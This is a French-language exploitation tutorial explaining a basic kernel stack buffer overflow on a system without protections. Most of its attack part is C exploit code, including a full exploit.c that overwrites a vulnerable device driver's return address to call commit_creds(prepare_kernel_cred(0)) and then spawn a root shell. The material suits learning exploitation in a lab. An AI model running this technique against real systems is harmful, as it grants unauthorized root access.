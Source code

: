 ```yaml
---
title: Buffer Overflow Basic
date: 2024-02-21
draft: false
description: Technique pour exploiter un buffer overflow basique côté kernel.
categories:
  - attacks
  - kernel
tags:
  - pwn
  - kernel
---
```

## Overview
Tout comme pour une exploitation de **BoF** en user-land, notre objectif va être d'overwrite la return address de la fonction vulnérable pour prendre le contrôle du flow d'exécution. 
On se place ici dans le cas où aucune protection n'est présente au niveau du kernel. 
## Detail
Notre objectif lors de l'exploitation d'un buffer overflow en kernel-land est de réussir a exécuter du code user-land tout en profitant de l'exécution de code kernel-land pour [élever nos privilèges](/MyLittlePwney/pwn/kernel/kernel-privesc).

Ainsi, un schéma d'attaque classique nous donnerait :
1) Exploiter le buffer overflow.
2) Overwrite l'adresse de retour de la fonction vulnérable par l'adresse de la fonction *privesc()*.
	- *privesc()* passe les privilèges du process, lancé par notre binaire *exploit*, a root.
3) Maintenant qu'on a des privilèges root, on peut lancer un *system("/bin/sh")*.
![task_struct](/MyLittlePwney/images/kernel_bof.png)
## Exploit
Pour implémenter cette attaque, on va se mettre dans le cas où on peut interagir avec une device, dont la propriété **write** fait appel à une fonction vulnérable à un buffer overflow. Ainsi, lorsque l'on va *write()* plus de caractères qu'attendu, on va overflow sur la stack kernel.

Pour exploiter cela, on va tout d'abord devoir ouvrir la device pour interagir avec elle.
```c title:open_dev()
int global_fd;

void open_dev(){
  global_fd = open("/dev/vulnDevice", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
      puts("[*] Opened device");
  }
}
```

Ensuite on va préparer notre fonction *privesc()* que l'on va appeler une fois avoir pris le contrôle sur le flow d'exécution côté kernel.

| Pour mieux comprendre le principe de l'élévation de privilèges côté kernel, allez voir : [Kernel Privesc](/MyLittlePwney/pwn/kernel/kernel-privesc). |
| --- |

```c title:privesc()
unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}
```

Maintenant qu'on a la fonction qui va nous permettre d'élever nos privilèges, on va pouvoir overflow sur la stack kernel et rediriger le flow d'exécution vers cette fonction.
```c title:overflow()
void overflow(){
  // Overlow at 64 bytes
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;

  write(global_fd, payload, sizeof(payload));
}
```

Grâce à cet exploit, nous avons manipulé le kernel pour qu'il passe le process spawn par *exploit* en tant que process root. Il ne nous reste plus qu'à run un *system("/bin/sh")* pour obtenir un shell root.

En résumé, notre exploit final donne quelque chose comme :
```c title:exploit.c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int global_fd;

unsigned long __attribute__((regparm(3))) (*commit_creds)(unsigned long cred);
unsigned long __attribute__((regparm(3))) (*prepare_kernel_cred)(unsigned long cred);

void open_dev(){
  global_fd = open("/dev/vulnDevice", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
      puts("[*] Opened device");
  }
}

void privesc(){
  commit_creds = 0xc107...;
  prepare_kernel_cred = 0xc107...;
  commit_creds(prepare_kernel_cred(0));
}

void overflow(){
  unsigned long long payload[17] = {0};
  payload[16] = (unsigned long)privesc;
  write(global_fd, payload, sizeof(payload));
}

int main() {
  open_dev();
  overflow();
  system("/bin/sh");
  return 0;
}
```